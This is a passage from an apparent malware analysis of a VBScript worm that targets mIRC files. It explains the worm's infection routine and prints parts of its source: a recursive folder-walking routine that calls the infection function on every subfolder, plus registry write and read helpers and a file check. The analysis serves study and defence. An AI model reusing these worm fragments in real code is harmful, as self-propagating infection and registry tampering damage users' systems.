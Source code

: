 Then it adds a hidden attribute to the file. It compares the folderspec to eq which was initialized to "" in the starting. If they are not equal then it compares the folderspec with some names(<span style="color:lightgreen">mirc32.exe, mlink32.exe, mirc.ini, script.ini, mirc.hlp</span>), if there is a match, then it creates a <span style="color:lightgreen">script.ini</span> file and writes some mIRC script to it. At last it updates the eq value with the folderspec.

It repeats this procedure with every file in the folder.

### folderlist

```vbs
sub folderlist(folderspec)  
On Error Resume Next
dim f,f1,sf
set f = fso.GetFolder(folderspec)  
set sf = f.SubFolders
for each f1 in sf
infectfiles(f1.path)
folderlist(f1.path)
next  
end sub
```

Basically it calls infectfiles for each subfolder present in folderspec.

### regcreate

```vbs
sub regcreate(regkey,regvalue)
Set regedit = CreateObject("WScript.Shell")
regedit.RegWrite regkey,regvalue
end sub
```

It's a type of shortcut to create a new registry entry with a specific key and value.

### regget

```vbs
function regget(value)
Set regedit = CreateObject("WScript.Shell")
regget=regedit.RegRead(value)
end function
```

It is designed to retrieve data from the Windows registry based on the provided registry key path.

### fileexist

```vbs
function fileexist(filespec)
On Error Resume Next
dim msg
if (fso.FileExists(filespec)) Then
msg = 0
else
msg = 1
end if
fileexist = msg
end function
```
